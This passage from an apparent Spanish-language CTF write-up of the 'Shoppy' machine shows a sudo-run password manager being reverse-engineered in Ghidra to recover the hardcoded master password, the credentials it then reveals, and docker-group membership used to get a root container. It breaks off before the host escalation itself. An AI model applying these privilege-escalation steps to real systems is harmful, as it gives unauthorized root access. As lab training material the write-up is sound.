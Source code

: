 Al ejecutarlo nos pide la **master password**:

```console
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: idontknowpassword            
Access denied! This incident will be reported !
```

Ya que tenemos permisos para descargarlo lo traemos a nuestra máquina para analizarlo y aplicar **Ingeniería Inversa** con `ghidra`:

![password-manager-ghidra](password_manager_ghidra.png){: .shadow}

Observamos que nuestro input se guarda en la variable `local_48` y luego se inserta en la variable `local_68` la palabra **Sample** que luego se compara con nuestro input y si son iguales devolverá el número '0' y nos mostrará el archivo _/home/deploy/creds.txt_. Entonces ingresamos esa palabra y conseguimos las credenciales del usuario `deploy`:

```console
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

Como el usuario `deploy` observamos que pertenecemos al grupo `docker`, lo cuál de alguna manera nos permite obtener privilegios ya que sabemos que `docker` **requiere permisos de root** para su ejecución

```console
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
deploy@shoppy:~$ find / -group docker 2>/dev/null | xargs ls -l
srw-rw---- 1 root docker 0 Oct  5 00:01 /run/docker.sock
```

Usamos `docker ps` para ver las imágenes que tenemos disponibles y crear un contenedor observamos que nos encontramos como usuario `root`:

```console
deploy@shoppy:~$ docker run -it alpine
/ # whoami
root
/ # ls -a
.           .dockerenv  dev         home        media       opt         root        sbin        sys         usr
..          bin         etc         lib         mnt         proc        run         srv         tmp         var
```

Revisando la IP y viendo el archivo _.dockerenv_ sabemos que nos es la máquina original. Pero con solo saber que estamos dentro como `root` ya podemos escalar privilegios en la máquina principal
